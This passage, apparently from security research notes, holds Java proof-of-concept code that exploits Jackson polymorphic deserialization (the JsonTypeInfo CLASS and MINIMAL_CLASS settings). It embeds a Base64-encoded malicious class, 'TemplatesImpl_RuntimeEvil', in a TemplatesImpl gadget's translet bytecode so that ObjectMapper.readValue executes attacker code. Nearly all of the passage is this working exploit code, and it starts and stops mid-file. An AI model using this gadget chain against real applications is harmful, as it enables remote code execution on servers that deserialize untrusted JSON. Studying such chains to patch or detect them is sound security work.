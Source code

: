 ```JAVA
                "'transletName':'test',\n" +
                "'outputProperties':{}\n" +
                "}\n" +
                "}");
        System.out.printf(jsonInput);
        ObjectMapper mapper = new ObjectMapper();
        try {
            Id_Class_Test test = mapper.readValue(jsonInput, Id_Class_Test.class);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }

    public static String readClassStr(String cls) throws IOException {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\TemplatesImpl_RuntimeEvil.class"));
        return Base64.encode(code1);
    }
}
```



### JsonTypeInfo.Id.MIMIMAL_CLASS POC

```java
package org.exploit.third.jackson;

import com.fasterxml.jackson.annotation.JsonTypeInfo;
import com.fasterxml.jackson.databind.ObjectMapper;
import com.unboundid.util.Base64;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Id_MINIMAL_Class_TemplatesImpl {
    public static class Id_Class_Test {
        @JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)
        public Object object;
    }
    public static void main(String[] args) throws IOException {
        String exp = readClassStr("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\TemplatesImpl_RuntimeEvil.class");
        String jsonInput = aposToQuotes("{\"object\":{'@c':'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',\n" +
                "'transletBytecodes':['"+exp+"'],\n" +
                "'transletName':'test',\n" +
                "'outputProperties':{}\n" +
                "}\n" +
                "}");
        System.out.printf(jsonInput);
        ObjectMapper mapper = new ObjectMapper();
        try {
            Id_Class_Test test = mapper.readValue(jsonInput, Id_Class_Test.class);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

```